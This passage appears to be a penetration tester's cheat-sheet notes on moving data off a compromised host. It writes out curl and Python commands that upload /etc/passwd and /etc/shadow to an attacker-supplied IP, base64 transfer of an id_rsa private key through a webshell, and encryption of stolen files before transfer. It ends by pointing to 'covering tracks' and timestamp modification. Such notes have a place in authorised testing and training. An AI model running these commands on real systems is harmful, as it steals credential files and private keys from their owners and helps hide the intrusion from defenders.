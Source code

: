 ```shell-session
$ curl -X POST https://<IP>[:<PORT>]/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
`--insecure` if we use #self-signed-certificates 
```shell-session
$ curl -T <file> http://<IP>[:<PORT>]/SecretUploadDirectory/file
```
```shell-session
$ python3 -c 'import requests;requests.post("http://<IP>[:<PORT>]/upload",files={"files":open("file","rb")})'
```
### Web Download
- Create one from any [[#Servers]] present in victim, and download from attacker machine
# Limited Data Transfer
Windows command-line support upto 8,191 characters and the webshell may error out if sending large strings
-> From Kali:
```shell-session
$ cat id_rsa |base64 -w 0;echo
```
- In Windows
```powershell
PS > [IO.File]::WriteAllBytes("C:\Save\location", [Convert]::FromBase64String("<base64-string>")
```
Confirm with #md5 hashsum
# Protected Data Transfer
- `Invoke-AESEncryption`: Refer #aes KB for usage.
```powershell
PS > Invoke-AESEncryption -Mode Encrypt -Key "<KEY>" -Text "<PLAIN>" 
PS > Invoke-AESEncryption -Mode Decrypt -Key "<KEY>" -Text "<ENCRYPTED>"
PS > Invoke-AESEncryption -Mode Encrypt -Key "<KEY>" -Path file.bin
PS > Invoke-AESEncryption -Mode Decrypt -Key "<KEY>" -Path file.bin.aes
```
- OpenSSL
```shell-session
$ openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
$ openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```

# **Possible pathways after Exfil:**

| Pathway 1              | Pathway 2                    |
| ---------------------- | ---------------------------- |
| [[Covering Tracks]]         | [[Operation Plan#Reporting]] |
| Timestamp Modification | Stakeholder Communication    |
